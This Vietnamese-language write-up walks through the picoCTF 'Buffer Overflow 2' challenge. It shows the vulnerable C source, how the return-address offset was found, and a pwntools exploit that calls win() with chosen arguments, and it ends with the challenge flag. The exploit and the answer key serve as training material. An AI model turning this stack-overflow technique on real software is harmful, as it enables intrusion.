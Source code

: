 # Buffer Overflow 2
Tiếp tục đến với chuỗi challenge `Buffer Overflow`, ở bài này thì ta có 2 file. Một file binary `vuln` và một file .c `vuln.c`.

Mở file `vuln.c` thì ta có thấy source code như sau:

``` c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

Ta thấy dòng code gây nên lỗi `buffer overflow` như sau:

``` c
gets(buf);
```

Nhìn sơ qua thì ý tưởng cũng giống như bài `Buffer Overflow 1` nhưng lần này hàm `win()` yêu cầu hai tham số là `arg1` và `arg2`.

Và để lấy được flag thì ta phải gọi hàm `win()` với hai tham số `arg1 = 0xCAFEF00D` và `arg2 = 0xF00DF00D`. Thoáng nhìn qua thì có vẻ như bài này sẽ dùng kĩ thuật [ROP](https://ctf101.org/binary-exploitation/return-oriented-programming/). Nhưng cũng giống như bài `Buffer Overflow 1` ta cần dùng lệnh `checksec` để kiểm tra các cơ chế bảo mật được bật trong binary, ta thấy `PIE` không được bật nhưng bên cạnh đó thì đây là một `ELF 32` nên kĩ thuật ROP sẽ không được sử dụng giống như `ELF 64`.

Giống như bài `Buffer Overflow 1`, ta làm điều tương tự để ghi đè địa chỉ hàm `win()` lên địa chỉ trả về của hàm `vuln()`. Vấn đề ở đây là làm sao để `arg1 = 0xCAFEF00D` và `arg2 = 0xF00DF00D`. 

Đầu tiên thì ta tìm cách ghi đè địa chỉ hàm `win()` lên địa chỉ trả về của hàm `vuln()`. Ta có thể dùng `cyclic` để tạo chuỗi kí tự theo quy tắc tuần hoàn nhằm tìm ra `offset` dễ dàng hơn:

![alt text](image.png)

Ta thấy địa chỉ trả về bị ghi đè bởi chuỗi 4 kí tự là `daab`. 

Với chuỗi này thì ta có được `offset` là `112`

``` bash
Qusy$ cyclic -l daab
112
```

Địa chỉ hàm `win()` được tìm thấy là `0x08049296`.

Giờ ta sẽ bắt tay vào việc làm cho hai tham số của hàm thỏa mãn điều kiện đã nói ở trên.

Đối với một tệp `ELF 32` thì khi một hàm được gọi:
- Các đối số sẽ được đẩy lên stack theo thứ tự từ phải qua trái. 
- Sau đó địa chỉ trả về của hàm sẽ được đẩy lên stack.

Vậy giờ sau khi ghi đè địa chỉ hàm `win()` lên địa chỉ trả về của hàm `vuln()` thành công thì ta sẽ tiếp tục nhập thêm 4 bytes nào đó để làm địa chỉ trả về của hàm `win()` sau đó là ghi đè giá trị 2 tham số tương ứng để hàm `win()` có thể in flag.

Thử nghiệm và đã thành công, ta có file exploit như sau:

``` python 
from pwn import *

payload = 112 * b'a' + b'\x96\x92\x04\x08' + 4 * b'a' + b'\x0D\xF0\xFE\xCA' + b'\x0D\xF0\x0D\xF0'
#p = process("./vuln")
p = remote("saturn.picoctf.net", 50190)
p.sendline(payload)
p.interactive()
```

Và ta có flag:

```
picoCTF{argum3nt5_4_d4yZ_27ecbf40}
```